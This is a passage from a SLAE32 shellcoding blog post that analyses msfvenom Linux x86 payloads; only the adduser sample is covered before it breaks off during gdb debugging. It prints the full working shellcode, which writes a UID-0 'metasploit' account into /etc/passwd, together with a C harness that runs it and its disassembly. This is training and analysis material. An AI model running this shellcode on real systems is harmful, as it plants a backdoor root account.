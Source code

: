 ```yaml
---
layout: single
title: Shellcode Samples Analysis
date: 2019-10-07
classes: wide
header:
  teaser: /assets/images/SLAE32/shellcoding32.png
tags:
  - Assembly
  - Pentester Academy
  - SLAE32
  - Shellcode
  - Certifications
--- 
```

![](/assets/images/SLAE32/shellcoding32.png)

## Introduction
If we search on internet we will find a lot of ready to use shellcodes of various types, somes are for simple command execution, others adds "secret users" in victim machine, others are bind and reverse shell like the shellcodes wrote in this blog. The question is, shall we trust shellcodes found in internet? Following the general rule "Trust no one" the answer should be a big No, but sometime, for example when we have limited time, we prefer or we are forced to use others shellcode.<br>
In this cases what we suggest is to analyze the downloaed shellcode in sandbox machine before use it, to ensure that it will do what it declare.<br>
For this post we want to show how to analyze 4 samples of shellcodes took from msfvenom payload tool.
We can use the msfvenom tool to list payloads that could be produced:
```bash
root@slae32-lab:# msfvenom -l payloads |grep linux/x86
```
![](/assets/images/SLAE32/assignment_5/analysis_0.png)<br>
We have already build (and analyzed) the bind and reverse shellcode types so we choosed this 4 shellcode samples:
- linux/x86/adduser "Create a new user with UID 0"
- linux/x86/chmod "Runs chmod on specified file with specified mode"
- linux/x86/exec "Execute an arbitrary command"
- linux/x86/read_file "Read up to 4096 bytes from the local file system and write it back out to the specified file descriptor" 
So let's start our analysis

## Adduser
First thing, we must create the payload with msfvenom
```bash
root@slae32-lab:# msfvenom -p linux/x86/adduser -f C -a x86 --platform linux
No encoder or badchars specified, outputting raw payload
Payload size: 97 bytes
Final size of c file: 433 bytes
unsigned char buf[] = 
"\x31\xc9\x89\xcb\x6a\x46\x58\xcd\x80\x6a\x05\x58\x31\xc9\x51"
"\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63"
"\x89\xe3\x41\xb5\x04\xcd\x80\x93\xe8\x28\x00\x00\x00\x6d\x65"
"\x74\x61\x73\x70\x6c\x6f\x69\x74\x3a\x41\x7a\x2f\x64\x49\x73"
"\x6a\x34\x70\x34\x49\x52\x63\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a"
"\x2f\x62\x69\x6e\x2f\x73\x68\x0a\x59\x8b\x51\xfc\x6a\x04\x58"
"\xcd\x80\x6a\x01\x58\xcd\x80";
```
Now we need to analyze it with ndisasm, using the command 
```bash
echo -ne "\x31\xc9\x89\xcb\x6a\x46\x58\xcd\x80\x6a\x05\x58\x31\xc9\x51\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63\x89\xe3\x41\xb5\x04\xcd\x80\x93\xe8\x28\x00\x00\x00\x6d\x65\x74\x61\x73\x70\x6c\x6f\x69\x74\x3a\x41\x7a\x2f\x64\x49\x73\x6a\x34\x70\x34\x49\x52\x63\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a\x2f\x62\x69\x6e\x2f\x73\x68\x0a\x59\x8b\x51\xfc\x6a\x04\x58\xcd\x80\x6a\x01\x58\xcd\x80" | ndisasm -u -
```
We can see the assembly code 
![](/assets/images/SLAE32/assignment_5/analysis_1.png)<br>
and we can see also the syscalls involved in this payload.
We have to remember that this shellcode has the scope of insert a user with uid 0 in the system so presumibly it write a new well crafted row in /etc/passwd file.
Now let's look at the assembly and try to indentify the syscalls and other components of the shellcode.<br>
![](/assets/images/SLAE32/assignment_5/analysis_2.png)<br>
![](/assets/images/SLAE32/assignment_5/setgid.png)<br>
![](/assets/images/SLAE32/assignment_5/open.png)<br>
![](/assets/images/SLAE32/assignment_5/write.png)<br>
![](/assets/images/SLAE32/assignment_5/exit.png)<br>

So we can resume the syscalls involved in this shellcode:
1. setgid
2. open
3. write
4. exit

We have to note two things here. The first is the 3 push dword of the ```open``` syscall that is most certainly the file to open, let's check it.<br>
![](/assets/images/SLAE32/assignment_5/analysis_3.png)<br>

Copy the value 
```
6873737764
682F2F7061
682F657463 
```
and paste it in a converter<br>
![](/assets/images/SLAE32/assignment_5/analysis_4.png)<br>
```dwssap//cte/```

Well done, we have find the file path opened by ```open``` syscall, it's /etc/passwd, obiovusly in reverse order beacause we are in little endian.<br>
The second is the chunk of code just after the ```call dword 0x53```, it seems only text instead of assembly instruction and as we will see, this code would never be executed.<br>
Now we can put the shellcode inside our executing C code, compile it and debug it with gdb.<br>
```C
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xc9\x89\xcb\x6a\x46\x58\xcd\x80\x6a\x05\x58\x31\xc9\x51
\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63
\x89\xe3\x41\xb5\x04\xcd\x80\x93\xe8\x28\x00\x00\x00\x6d\x65
\x74\x61\x73\x70\x6c\x6f\x69\x74\x3a\x41\x7a\x2f\x64\x49\x73
\x6a\x34\x70\x34\x49\x52\x63\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a
\x2f\x62\x69\x6e\x2f\x73\x68\x0a\x59\x8b\x51\xfc\x6a\x04\x58
\xcd\x80\x6a\x01\x58\xcd\x80";

void main()
{

        printf("Shellcode Length:  %d\n", strlen(code));

        int (*ret)() = (int(*)())code;

        ret();

}
```
The first syscall as said is the ```setgid``` that want the 0x46 in the EAX register and the gid of the caller as argument, in EBX regsister. In this case the payload set the gid to 0 (root).
![](/assets/images/SLAE32/assignment_5/setgid_0.png)<br>
![](/assets/images/SLAE32/assignment_5/setgid_1.png)<br>
```stepi``` to the ```int 0x80``` call
![](/assets/images/SLAE32/assignment_5/setgid_2.png)<br>
and check the first 4 register with a hook-stop procedure

```gdb
Dump of assembler code for function code:
=> 0x0804a040 <+0>:	xor    ecx,ecx
   0x0804a042 <+2>:	mov    ebx,ecx
   0x0804a044 <+4>:	push   0x46
   0x0804a046 <+6>:	pop    eax
   0x0804a047 <+7>:	int    0x80
   0x0804a049 <+9>:	push   0x5
   0x0804a04b <+11>:	pop    eax
   0x0804a04c <+12>:	xor    ecx,ecx
   0x0804a04e <+14>:	push   ecx
   0x0804a04f <+15>:	push   0x64777373
   0x0804a054 <+20>:	push   0x61702f2f
   0x0804a059 <+25>:	push   0x6374652f
   0x0804a05e <+30>:	mov    ebx,esp
   0x0804a060 <+32>:	inc    ecx
   0x0804a061 <+33>:	mov    ch,0x4
   0x0804a063 <+35>:	int    0x80
   0x0804a065 <+37>:	xchg   ebx,eax
   0x0804a066 <+38>:	call   0x804a093 <code+83>
   0x0804a06b <+43>:	ins    DWORD PTR es:[edi],dx
   0x0804a06c <+44>:	gs je  0x804a0d0
   0x0804a06f <+47>:	jae    0x804a0e1
   0x0804a071 <+49>:	ins    BYTE PTR es:[edi],dx
   0x0804a072 <+50>:	outs   dx,DWORD PTR ds:[esi]
   0x0804a073 <+51>:	imul   esi,DWORD PTR [edx+edi*1+0x41],0x49642f7a
   0x0804a07b <+59>:	jae    0x804a0e7
   0x0804a07d <+61>:	xor    al,0x70
   0x0804a07f <+63>:	xor    al,0x49
   0x0804a081 <+65>:	push   edx
   0x0804a082 <+66>:	arpl   WORD PTR [edx],di
   0x0804a084 <+68>:	xor    BYTE PTR [edx],bh
   0x0804a086 <+70>:	xor    BYTE PTR [edx],bh
   0x0804a088 <+72>:	cmp    ch,BYTE PTR [edi]
   0x0804a08a <+74>:	cmp    ch,BYTE PTR [edi]
   0x0804a08c <+76>:	bound  ebp,QWORD PTR [ecx+0x6e]
   0x0804a08f <+79>:	das    
   0x0804a090 <+80>:	jae    0x804a0fa
   0x0804a092 <+82>:	or     bl,BYTE PTR [ecx-0x75]
   0x0804a095 <+85>:	push   ecx
   0x0804a096 <+86>:	cld    
   0x0804a097 <+87>:	push   0x4
   0x0804a099 <+89>:	pop    eax
   0x0804a09a <+90>:	int    0x80
   0x0804a09c <+92>:	push   0x1
   0x0804a09e <+94>:	pop    eax
   0x0804a09f <+95>:	int    0x80
   0x0804a0a1 <+97>:	add    BYTE PTR [eax],al

Type commands for definition of "hook-stop".
End with a line saying just "end".
>disassemble 
>print/x $eax
>print/x $ebx
>print/x $ecx
>print/x $edx
>end
```
![](/assets/images/SLAE32/assignment_5/setgid_3.png)<br>



